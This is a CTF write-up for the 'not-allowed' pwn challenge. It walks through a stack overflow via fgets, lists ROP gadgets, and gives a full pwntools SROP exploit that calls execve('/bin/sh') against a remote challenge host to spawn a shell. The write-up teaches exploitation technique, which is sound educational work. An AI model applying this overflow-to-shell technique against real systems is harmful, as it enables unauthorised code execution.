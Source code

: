 ```yaml
---
title: not-allowed
type: writeup
date: 2024-04-07T14:23:28+03:00
description: Writeup for not-allowed [Unbreakable 2024]
author: sunbather
tags:
- pwn
- srop
draft: false
---
```

___

## Challenge Description

Silence speaks louder than words.

## Intuition

We receive a simple binary with two functions: *main* and *wish*. The main function sets up stream buffering with *setvbufs* and then does a call to fgets that is obviously overflowing the destination buffer.

```c
void main(void)
{
  char local_28 [32];
  
  setup(stdin,0,2,0);
  setup(stdout,0,2,0);
  setup(stderr,0,2,0);
  fgets(local_28,600,stdin);
  return;
}
```
Since the stack is NX, our remaining option is to ROP. Sadly we don't have a lot of gadgets, but we do notice a few important ones when dumping with ROPgadget:

```
0x00000000004011ce : inc al ; ret
0x0000000000401156 : pop rdi ; ret
0x000000000040101a : ret
0x0000000000401162 : sub eax, eax ; ret
0x00000000004011cc : syscall
```

We have control over RAX, RDI and we also have a syscall gadget. Sadly however, the imported libc functions do not let us print anything! So we cannot leak libc and jump to *system* or *execve*. We can, however, do SROP! We can craft a signal return frame on the stack and then trigger it using a sigreturn syscall. But how do we get an address for ``/bin/sh``? The *wish* function has everything prepared for us:

```c
void wish(void)
{
  string[0] = 'H';
  string[1] = 'e';
  string[2] = 'r';
  string[3] = 'e';
  string[4] = ' ';
  string[5] = 'y';
  string[6] = 'o';
  string[7] = 'u';
  string[8] = ' ';
  string[9] = 'g';
  string[10] = 'o';
  string[11] = ':';
  string[12] = ' ';
  string[13] = '/';
  string[14] = 'b';
  string[15] = 'i';
  string[16] = 'n';
  string[17] = '/';
  string[18] = 's';
  string[19] = 'h';
  string[20] = '\0';
  return;
}
```
We simply need to get the address corresponding to ``string[13]`` and call this function before we use the sigreturn syscall. Binary is non-PIE so getting the addresses to all those gadgets and objects is trivial.

## Solution

```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"

#target = process("./not-allowed")
target = remote("34.141.109.85", 31555)

wish_addr = 0x00401175
sh_addr = 0x40407d
syscall_gadget = 0x4011cc
inc_al_gadget = p64(0x00000000004011ce)
zero_rax = p64(0x0000000000401161)

# frame that will call execve(/bin/sh)
frame = SigreturnFrame()
frame.rax = 59 # syscall code for execve
frame.rdi = sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget

# 1. call wish
# 2. zero out rax w/ sub eax, eax
# 3. increment RAX to 15 (sigreturn)
# 4. syscall sigreturn
# 5. ???
# 6. profit
payload = b"a" * 0x28 + p64(wish_addr) + zero_rax + inc_al_gadget * 15 + p64(syscall_gadget) + bytes(frame)

target.sendline(payload)
target.interactive()
```

